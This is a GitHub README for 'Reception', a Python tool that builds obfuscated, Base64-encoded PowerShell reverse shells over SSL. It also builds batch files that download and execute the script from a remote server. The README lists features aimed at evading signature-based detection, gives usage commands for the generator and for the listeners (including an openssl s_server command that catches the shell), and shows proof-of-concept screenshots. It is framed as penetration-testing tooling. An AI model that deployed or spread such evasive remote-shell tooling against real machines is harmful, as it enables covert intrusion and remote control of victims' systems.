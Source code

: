 # Reception: Reverse Shell Generator with SSL Encryption

## Overview

**Reverse** is a Python-based tool designed to generate obfuscated PowerShell scripts or batch files for establishing a reverse shell with SSL encryption. This tool can help in penetration testing scenarios where the goal is to bypass security mechanisms and establish a secure connection to a target machine.

## Features

- **Reverse Shell with SSL Encryption:** Generates PowerShell scripts that establish an encrypted reverse shell connection using SSL.
- **Obfuscation:** Each generated PowerShell script uses randomly selected variable names to avoid signature-based detection by security tools.
- **Base64 Encoding:** The PowerShell scripts are encoded in Base64 for additional obfuscation.
- **Batch File Generation:** Create a batch file that downloads and executes the encoded PowerShell script directly from a remote server.
- **Customizable:** Users can specify the IP address, port, and server URL for downloading the PowerShell script.

### Prerequisites

- Python 3.x
- OpenSSL (for certificate generation)

### Installation

Clone the repository:

```bash
git clone https://github.com/ShkudW/Reception.git
cd Reception
```

## Usage

Generate an Encoded PowerShell Script:
```bash
python3 Reverser.py -ip <Your_Listener_Server_IP> -port <Your_Listener_Server_PORT> -type ps1
```

Generate a Batch File and PowerShell Script:
```bash
python3 Reverser.py -ip <Your_Listener_Server_IP> -port <Your_Listener_Server_PORT> -type bat -server http://<Your_Server_ip|URL>/<File-Name>.ps1
```

Open a listener for downloadingg the PS1 file with listener.py:
```bash
python3 listener.py -port <Your_Server_PORT>
```

Open a listener for getting Reverse-Shell with OpenSSL:
```bash
openssl s_server -accept <Your_Listener_Port> -cert reception.pem -key reception.key -quiet
```

## PoC:
Generate a Batch File that downloading and executing a PS1 file:

![image](https://github.com/user-attachments/assets/4816ff7f-e694-413b-8a82-eb6eec74df65)


Running the Batch file on the target machine, the connection is not secure yet, and headers that look legitimate are passed:

![image](https://github.com/user-attachments/assets/87a630c3-2310-4f91-a8fe-d0948523de2f)


Running the listener server and getting a request for downloaing the PS1 file:

![image](https://github.com/user-attachments/assets/14618c88-ba1b-452d-8b26-5e803c47772d)


Traffic is secure:

![image](https://github.com/user-attachments/assets/42f5453d-4687-4432-bfb4-070074260549)


Getting a Secure Reverse Shell:
![image](https://github.com/user-attachments/assets/16ecaf01-05fa-4e18-84a6-c063937ad808)



